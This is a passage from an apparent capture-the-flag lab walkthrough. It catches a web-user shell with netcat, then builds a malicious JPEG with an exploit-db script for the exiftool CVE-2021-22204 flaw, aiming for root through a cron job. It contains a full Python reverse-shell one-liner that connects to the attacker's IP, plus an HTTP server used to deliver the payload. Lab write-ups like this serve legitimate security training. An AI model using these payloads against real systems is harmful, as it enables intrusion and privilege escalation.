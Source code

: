 16.3) We see we got a shell in Kali

```
--$ nc -vlnp 80
listening on [any] 80 ...
connect to [192.168.49.51] from (UNKNOWN) [192.168.51.163] 38646
www-data@exfiltrated:/var/www/html/subrion/uploads$ whoami
whoami
www-data
www-data@exfiltrated:/var/www/html/subrion/uploads$ echo hello world!
echo hello world!
hello world!
www-data@exfiltrated:/var/www/html/subrion/uploads$ 
```

Great, now we can move on to leverage the `exiftool` vulnerability exploit. To recap, the plan is: get the cron job (which runs exiftool, as root) to run the reverse shell code and get us a shell as `root`.

17) We build our payload JPEG:

> Note: First pass the python program crapped out because the system didnt have a binary `bzz`, had to run `sudo apt-get install djvulibre-bin -y`)

```
---(kali?kali)-[~]
--$ python /usr/share/exploitdb/exploits/linux/local/50911.py -c 'python3 -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.51\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
RUNNING: UNICORD Exploit for CVE-2021-22204
PAYLOAD: (metadata "\c${system('python3 -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.51\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"')};")
RUNTIME: DONE - Exploit image written to 'image.jpg'
```

18) Now we just need to move our payload from the Kali file-system to the target host. We can do this by setting up an HTTP server (python has a built-in file server) in the Kali machine and simply downloading it from the target host (e.g. with cURL or wget)...

In Kali:

> I moved the `image.jpg` payload into a directory `~/server`, where I started my server

```
---(kali?kali)-[~/server]
--$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.51.163 - - [27/Feb/2024 01:28:44] "GET /image.jpg HTTP/1.1" 200 -
```
